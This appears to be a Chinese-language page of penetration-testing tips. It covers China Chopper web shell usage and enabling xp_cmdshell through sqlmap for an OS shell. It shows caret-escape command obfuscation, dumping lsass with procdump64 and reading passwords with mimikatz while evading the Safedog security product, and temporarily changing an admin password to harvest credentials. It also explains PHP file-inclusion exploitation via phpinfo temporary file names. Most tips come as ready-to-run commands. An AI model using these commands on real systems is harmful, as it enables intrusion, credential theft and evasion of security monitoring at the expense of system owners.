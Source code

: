 - 在菜刀的命令中输入`SETP C:\RECYCLER\cmd.exe`设置终端路径。

- “提示：执行命令失败，可能远程启用了安全模式”：PHP safe_mode特性在5.3后不推荐使用，在5.4中删除；也可能是Disable_functions。

- “发生系统错误5 拒绝访问”：有安全狗这类软件禁止了行为，安全狗虽然会拦截我们加账户，但是并不会拦截我们改密码。可以先query user查询在线管理，修改密码登陆上去使用mimi抓取密码【管理权限】再改回来...

- sql server 2005/2008中的xp_cmdshell默认是未开启的，使用SQLMap的os-shell会无返回内容，这时候最好先开启一下xp_cmdshell或转发出来本地连接来使用其他工具。

  ```
  SQLMap执行sql语句开启xp_cmdshell【dba权限】：
  --sql-query "EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;"
  ```

- Windows下转义符号^：

  ```
  C:\Users\Go0s>whoami
  go0s-pc\go0s

  C:\Users\Go0s>w^h^o^ami
  go0s-pc\go0s
  ```

- Procdump64.exe，是微软内部调试工具，可以导出windows密码，躲避安全狗，获取lsass.dmp后在**相同环境**下使用mimikatz可以读取：需要管理员权限

  ```
  procdump64.exe -accepteula -ma lsass.exe lsass.dmp

  sekurlsa::minidump lsass.dmp
  sekurlsa::logonpasswords
  ```

- PHP文件包含漏洞（利用phpinfo）：在给PHP发送POST数据包时，如果数据包里包含文件区块，无论你访问的代码中有没有处理文件上传的逻辑，PHP都会将这个文件保存成一个临时文件（通常是`/tmp/php[6个随机字符]`），文件名可以在`$_FILES`变量中找到。这个临时文件，在请求结束后就会被删除。同时，因为phpinfo页面会将当前请求上下文中所有变量都打印出来，所以我们如果向phpinfo页面发送包含文件区块的数据包，则即可在返回包里找到`$_FILES`变量的内容，自然也包含临时文件名。

  ```
  <tr><td class="e">$_FILES['dummyname']</td><td class="v"><pre>Array
  (
      [name] =&gt; test.txt
      [type] =&gt; text/plain
      [tmp_name] =&gt; /tmp/phpB34mgC
      [error] =&gt; 0
      [size] =&gt; 77
  )
  </pre></td></tr>
  ```

  ​

